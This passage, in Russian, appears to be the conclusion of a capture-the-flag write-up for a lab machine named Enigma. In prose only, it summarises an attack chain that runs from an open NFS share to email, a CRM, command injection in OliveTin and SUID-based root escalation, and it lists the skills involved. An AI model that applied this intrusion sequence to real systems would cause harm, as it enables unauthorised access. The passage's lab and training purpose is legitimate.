Машина Enigma продемонстрировала отличный сценарий цепочки атак через корпоративную инфраструктуру. Начиная с небезопасной NFS-шары, содержащей онбординг-документы, мы получили доступ к почте, затем к внутренней CRM-системе, и наконец — к инструменту администрирования серверов (OliveTin).

Особенно интересным был вектор повышения привилегий через OliveTin. Уязвимость Command Injection в параметрах действия "Backup Database" показала важность санитизации входных данных даже во внутренних инструментах автоматизации. Использование SUID-бинарника вместо прямого reverse shell позволило обойти ограничения окружения и получить стабильный root-доступ.

### 📚 Ключевые навыки:
1. NFS Enumeration: Поиск и анализ открытых сетевых файловых систем.
2. Email Reconnaissance: Использование почтовых переписок для поиска скрытых сервисов и учетных данных.
3. Database Analysis: Извлечение и взлом хешей паролей из конфигурационных файлов приложений.
4. API Exploitation: Тестирование внутренних API на инъекции команд (OliveTin).
